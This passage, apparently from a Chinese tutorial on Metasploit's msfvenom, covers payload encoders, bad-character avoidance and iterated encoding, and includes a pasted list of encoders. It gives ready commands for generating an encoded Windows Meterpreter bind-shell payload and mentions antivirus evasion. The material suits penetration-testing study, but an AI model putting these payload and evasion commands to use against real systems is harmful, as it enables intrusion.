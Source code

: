 不同的函数，有不同的规避字符：
如gets就需要避免`/x0a`
如scanf更严格，不允许空白符
如产生一段exec的shellcode

2.用-e选项指定编码器encoder，如：

```
msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
```

默认的输出格式是raw，直接输出payload的字符（含乱码），常加参数-o写到文件中。


3.使用-i选项进行多次编码
迭代编码也许会有规避杀毒软件的作用，但这不是真正的免杀。

迭代编码 例子：
`msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3`


msf中所有的编码器：

```
msfvenom -l encoders

Framework Encoders
==================

    Name                          Rank       Description
    ----                          ----       -----------
    cmd/echo                      good       Echo Command Encoder
    cmd/generic_sh                manual     Generic Shell Variable Substitution Command Encoder
    cmd/ifs                       low        Generic ${IFS} Substitution Command Encoder
    cmd/perl                      normal     Perl Command Encoder
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    cmd/printf_php_mq             manual     printf(1) via PHP magic_quotes Utility Command Encoder
    generic/eicar                 manual     The EICAR Encoder
    generic/none                  normal     The "none" Encoder
    mipsbe/byte_xori              normal     Byte XORi Encoder
    mipsbe/longxor                normal     XOR Encoder
    mipsle/byte_xori              normal     Byte XORi Encoder
    mipsle/longxor                normal     XOR Encoder
    php/base64                    great      PHP Base64 Encoder
    ppc/longxor                   normal     PPC LongXOR Encoder
    ppc/longxor_tag               normal     PPC LongXOR Encoder
    sparc/longxor_tag             normal     SPARC DWORD XOR Encoder
    x64/xor                       normal     XOR Encoder
    x64/zutto_dekiru              manual     Zutto Dekiru
    x86/add_sub                   manual     Add/Sub Encoder
    x86/alpha_mixed               low        Alpha2 Alphanumeric Mixedcase Encoder
    x86/alpha_upper               low        Alpha2 Alphanumeric Uppercase Encoder
    x86/avoid_underscore_tolower  manual     Avoid underscore/tolower
    x86/avoid_utf8_tolower        manual     Avoid UTF8/tolower
    x86/bloxor                    manual     BloXor - A Metamorphic Block Based XOR Encoder
    x86/bmp_polyglot              manual     BMP Polyglot
    x86/call4_dword_xor           normal     Call+4 Dword XOR Encoder
    x86/context_cpuid             manual     CPUID-based Context Keyed Payload Encoder
    x86/context_stat              manual     stat(2)-based Context Keyed Payload Encoder
    x86/context_time              manual     time(2)-based Context Keyed Payload Encoder
    x86/countdown                 normal     Single-byte XOR Countdown Encoder
    x86/fnstenv_mov               normal     Variable-length Fnstenv/mov Dword XOR Encoder
    x86/jmp_call_additive         normal     Jump/Call XOR Additive Feedback Encoder
    x86/nonalpha                  low        Non-Alpha Encoder
    x86/nonupper                  low        Non-Upper Encoder
    x86/opt_sub                   manual     Sub Encoder (optimised)
    x86/service                   manual     Register Service
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
```